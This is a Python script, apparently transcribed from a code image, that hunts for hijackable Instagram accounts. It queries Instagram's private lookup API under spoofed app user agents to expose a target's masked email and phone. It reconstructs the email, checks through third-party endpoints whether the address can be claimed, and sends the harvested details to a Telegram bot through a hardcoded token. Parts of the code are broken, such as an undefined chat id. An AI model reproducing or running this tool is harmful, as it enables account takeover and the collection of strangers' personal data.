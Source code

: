 import requests,os,random
from time import sleep
user_agent = [
    "Instagram 99.4.0 S3od_al3nzi (Dmaral3noOoz)",'Instagram 155.0.0.37.107 Android (28/9; 320dpi; 720x1468; samsung; SM-A102U; a10e; exynos7885; en_US; 239490550)',
    'Instagram 64.0.0.12.96 (iPhone8,1; iOS 12_0_1; pt_BR; pt-BR; scale=2.00; gamut=normal; 750x1334; 124976489)',
    'Instagram 8.4.0 (iPhone7,2; iPhone OS 9_3_2; nb_NO; nb-NO; scale=2.00; 750x1334',
    'Instagram 93.1.0.19.102 Android (21/5.0.2; 240dpi; 540x960; samsung; SM-G530H; fortuna3g; qcom; ar_AE; 154400379)'
]
X=int(input("[?] With telegram ? \n[!] 0 = NO | 1 = YES\n+> "))
if X == 1 :
	try:
		tel=requests.post(f"https://api.telegram.org/bot2025157803:AAHetK41bvjw0ker2huKvoUeXwyWzYIf_-0/sendMessage?chat_id={ic}&text=HI\nIf you have a problem tell me\nINSTA : @M0B.STORE | TELE : @ZXXXXZV")
	except:
		print("[!] Try with VPN ")
		input("")
		exit()
else:
	pass
os.system('cls' if os.name == 'nt' else 'clear')#DOOM
print("""\033[0;97m𝐈𝐍𝐒𝐓𝐀 : 𝟗𝟔𝟖.𝐎𝐏𝐒\n\033[1;34m𝐈𝐟 𝐲𝐨𝐮 𝐡𝐚𝐯𝐞 𝐚 𝐩𝐫𝐨𝐛𝐥𝐞𝐦, 𝐭𝐞𝐥𝐥 𝐦𝐞 𝐨𝐧 𝐈𝐧𝐬𝐭𝐚𝐠𝐫𝐚𝐦""")
def ops ():
	print('\n'+'\033[1;30m='*20+'\n')
	user=input("\033[1;30m[\033[0;37m?\033[1;30m] username or url user :\033[0;37m")
	try:
		user=user.split("/")[3]
		user=user.split("?")[0] or user.split("/")[0]
	except:
		pass
	url = "https://i.instagram.com:443/api/v1/users/lookup/"
	cookies = {"mid": "XOSINgABAAG1IDmaral3noOozrK0rrNSbPuSbzHq"}
	x=random.choice(user_agent)
	headers = {"Connection": "close", "X-IG-Connection-Type": "WIFI", "X-IG-Capabilities": "3R4=",
           "Accept-Language": "ar-AE",
           "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
           "User-Agent": x,
           "Accept-Encoding": "gzip, deflate"}
	data = {"signed_body": "35a2d547d3b6ff400f713948cdffe0b789a903f86117eb6e2f3e573079b2f038.{\"q\":\"%s\"}" % user }
	try:
		re = requests.post(url, headers=headers, cookies=cookies, data=data)
		if re.status_code == 200:
			pass
		elif re.status_code == 409 or 404:
			print("\033[1;31m[!] username bad !")
			print('\n'+'\033[1;30m='*20+'\n')
			ops()
		elif re.status_code == 429:
			print("\033[1;31m[!] wait 5m")
			print('\n'+'\033[1;30m='*20+'\n')
			sleep(60*5)
			ops()
		info = re.json()
	except:
		print("\033[1;31m[!] there is no Internet")
		print('\n'+'\033[1;30m='*20+'\n')
		ops()
	try:
		print("\033[1;30m[\033[0;37m$\033[1;30m] Email :\033[1;32m "+info['obfuscated_email'])
		m1=(user[0])
		m2=(user[-1])
		s=info["obfuscated_email"].split("@")[0]
		m3=(s[0])
		m4=(s[-1])
		if m1 == m3 and m2 == m4:
			v=0
			if '@yahoo.com' in info["obfuscated_email"]:
				s1="@yahoo.com"
			elif '@gmail.com' in info["obfuscated_email"]:
				s1="@gmail.com"
			elif "@a**.com" in info["obfuscated_email"]:
				s1="@aol.com"
			elif "@hotmail.com" in info["obfuscated_email"]:
				s1="@hotmail.com"
			elif "@o*****.sa" in info["obfuscated_email"]:
				s1="outlook.sa"
			elif "@g*****.com" in info["obfuscated_email"]:
				s1="@googlemail.com"
			elif '@m***.com' in info["obfuscated_email"]:
				s1="@mail.com"
			elif '@f*****.fm' in info["obfuscated_email"]:
				s1="@fastmail.fm"
			else:
				s1="@"+info["obfuscated_email"].split("@")[1]
			if "*" in s1:
				print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;31mNO")
				ops()
			else:
				eml=user+s1
				p=requests.get("http://tweakpy-filza.ueuo.com/api.php?email="+eml).text
				if "False" in p:
					if v == 1:
							rm=requests.get("https://jftv.pythonanywhere.com/IGMail/"+user+"@googlemail.com").text
					else:
							rm=requests.get("https://jftv.pythonanywhere.com/IGMail/"+eml).text
					if "Linked Or Ban" in rm:
						print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;32mYES")
						print("\033[1;30m[\033[0;37m$\033[1;30m] Email Available :\033[1;32m "+eml)
					else:
						print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;31mNO")
						ops()
				else:
					print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;31mNO")
					ops()
		else:
			print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;31mNO")
			ops()
	except:
		print("\033[1;30m[\033[0;37m$\033[1;30m] Email :\033[1;31m False")
		ops()
	try:
		po=info['obfuscated_phone']
		print("\033[1;30m[\033[0;37m$\033[1;30m] Phone number :\033[1;32m "+ po)
	except:
		print("\033[1;30m[\033[0;37m$\033[1;30m] Phone number : \033[1;31mFalse")
		po="False"
	try:
		iid=info['user_id']
		print(f"\033[1;30m[\033[0;37m$\033[1;30m] user id :\033[1;32m {iid}")
	except:
		print("\033[1;30m[\033[0;37m$\033[1;30m] user id : \033[1;31mFalse")
	try:
		uid=info['user_id']
		x=requests.get(f"https://o7aa.pythonanywhere.com/?id={uid}").text
		x1=str(x).split('"data": ')[1]
		x2=str(x1).split(', "telegram":')[0]
		print("\033[1;30m[\033[0;37m$\033[1;30m] data :\033[1;32m "+x2)
	except:
		print("\033[1;30m[\033[0;37m$\033[1;30m] data : \033[1;31mFalse ")
	if X == 1:
		tel=requests.post(f"https://api.telegram.org/bot2025157803:AAHetK41bvjw0ker2huKvoUeXwyWzYIf_-0/sendMessage?chat_id={ic}&text=NEW OLD ACC\nUser : {user}\nEmail : {eml} Available or ban\nPhone : {po}\nData : {x2}\nINSTA : @M0B.STORE | TELE : @ZXXXXZV")
	else:
		pass
	print('\n'+'\033[1;30m='*20+'\n')
	ops()
ops()
